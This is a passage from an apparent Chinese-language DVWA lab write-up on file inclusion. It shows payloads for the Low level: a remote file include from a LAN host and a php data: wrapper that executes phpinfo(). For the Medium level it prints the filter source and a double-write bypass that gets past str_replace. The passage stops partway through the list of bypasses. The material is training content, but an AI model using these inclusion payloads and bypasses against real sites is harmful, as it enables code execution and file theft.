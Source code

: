 那么只要修改URL中的参数就可以实现命令执行和文件读取了

<img src="/images/ctf-web-dvwa/image-20221005203401000.png" alt="image-20221005203401000" style="zoom:67%;" />

![image-20221005203601530](/images/ctf-web-dvwa/image-20221005203601530.png)

另外, 被包含的文件就算不是php格式,只要其中的内容被识别为php代码,那么仍然可以执行:

<img src="/images/ctf-web-dvwa/image-20221005204018216.png" alt="image-20221005204018216" style="zoom:67%;" />

另外,还可以包含远程文件:

```
?page=http://192.168.110.147/test.txt
```

**还可以通过php伪协议来实现命令执行等操作:**

```
http://127.0.0.1:8090/dvwa/vulnerabilities/fi/?page=data:text/plain,%20%3C?php%20phpinfo();?%3E
```

![image-20221005210347812](/images/ctf-web-dvwa/image-20221005210347812.png)



<br>

## Medium

相比于Low,多了一些过滤

```php
<?php

// The page we wish to display
$file = $_GET[ 'page' ];

// Input validation
$file = str_replace( array( "http://", "https://" ), "", $file ); //方式包含远程文件
$file = str_replace( array( "../", "..\"" ), "", $file );
?> 
```

这种简单的替换过滤其实就和没有一样..

- 双写绕过: 

```
?page=hthttp://tp://127.0.0.1:8090/xxxxx.txt
str_replace函数过滤掉一个"http://"之后,就变成了:
?page=http://127.0.0.1:8090/xxxxx.txt
```

<img src="/images/ctf-web-dvwa/image-20221005204816678.png" alt="image-20221005204816678" style="zoom:67%;" />

- 使用绝对路径来包含文件也不受影响
